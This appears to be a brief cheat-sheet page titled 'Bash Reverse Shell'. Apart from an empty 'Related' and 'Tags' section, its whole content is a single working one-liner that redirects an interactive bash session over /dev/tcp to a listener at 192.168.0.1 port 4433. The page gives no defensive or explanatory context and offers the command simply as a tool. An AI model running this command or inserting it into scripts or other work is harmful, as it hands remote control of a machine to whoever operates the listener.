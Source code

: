 # Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

# Related


Tags:

    
